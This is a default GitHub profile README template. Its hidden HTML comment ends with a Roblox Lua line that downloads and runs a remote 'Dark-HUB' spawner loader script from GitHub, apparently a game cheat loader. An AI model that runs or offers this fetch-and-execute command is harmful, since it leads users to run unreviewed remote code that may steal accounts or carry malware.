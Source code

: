 ## Hi there 👋

<!--
**kaylejenash/Kaylejenash** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: .

loadstring(game:HttpGet("https://raw.githubusercontent.com/growagardensc/Dark-HUB/refs/heads/main/Dark-Spawner/Loader.lua"))()
-->
